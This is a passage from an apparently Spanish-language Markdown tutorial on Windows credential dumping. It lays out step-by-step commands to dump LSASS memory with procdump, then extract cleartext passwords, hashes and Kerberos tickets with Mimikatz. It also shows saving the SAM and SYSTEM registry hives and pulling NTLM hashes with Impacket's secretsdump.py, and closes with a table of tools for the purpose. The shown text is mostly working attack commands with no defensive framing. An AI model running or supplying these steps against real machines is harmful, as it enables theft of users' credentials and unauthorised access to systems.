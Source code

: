 Desde:

[https://learn.microsoft.com/en-us/sysinternals/downloads/procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

#### 📦 Paso 2: Ejecutar volcado

```bash
procdump -accepteula -ma lsass.exe lsass.dmp
```

📌 Esto crea un archivo `lsass.dmp` con toda la memoria del proceso.

---

#### 🧩 Paso 3: Extraer credenciales con Mimikatz

Una vez tengas el dump, puedes usar [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```bash
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

🔓 Verás usuarios, contraseñas en texto claro, hashes, tickets Kerberos, etc.

---

### 🧪 Ejemplo 2: Volcado de SAM local

Este ataque busca el archivo SAM y las claves del SYSTEM.

#### ✅ Paso 1: Copiar archivos (requiere SYSTEM)

```bash
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

Esto crea dos archivos: `sam.save` y `system.save`.

---

#### ✅ Paso 2: Extraer hashes con `secretsdump.py` (de Impacket)

```bash
secretsdump.py -sam sam.save -system system.save LOCAL
```

📌 Obtendrás los hashes NTLM de los usuarios locales.

---

### 💣 Herramientas populares para esto

| Herramienta                   | Función principal                |
| ----------------------------- | -------------------------------- |
| **Mimikatz**                  | Extrae credenciales de LSASS     |
| **Procdump**                  | Vuelca la memoria de procesos    |
| **secretsdump.py (Impacket)** | Extrae hashes de SAM/SYSTEM      |
| **Pypykatz**                  | Alternativa a Mimikatz en Python |

---